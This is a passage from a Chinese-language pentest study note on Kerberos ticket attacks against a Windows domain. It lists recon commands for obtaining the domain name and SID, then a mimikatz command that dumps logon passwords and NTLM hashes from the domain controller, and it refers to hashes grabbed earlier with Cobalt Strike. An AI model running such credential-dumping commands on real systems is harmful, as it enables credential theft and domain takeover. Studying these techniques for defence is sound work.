 ## 利用

因为这里MAC没有去搭建域环境（在后期Kerberos委派攻击的时候会在windows去搭建），所以对于利用只记录一个流程和payload

这两个票据的具体图片可以参考https://www.cnblogs.com/1-Ry/p/15418602.html

首先还是去获取域名和域SID值等信息

```
whoami
net time /domain
ipconfig /all		//获取域名

whoami /all	  //获取SID
```

在域控中使用mimikatz获取相关信息

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"
```

![image-20230226193135855](images/7.png)

可以看到域控的NTLM Hash

其实前面CS的时候，我们用hashdump打印的mimikatz抓到的hash中也有NTLM Hash

![image-20220909134233967](images/3.png)
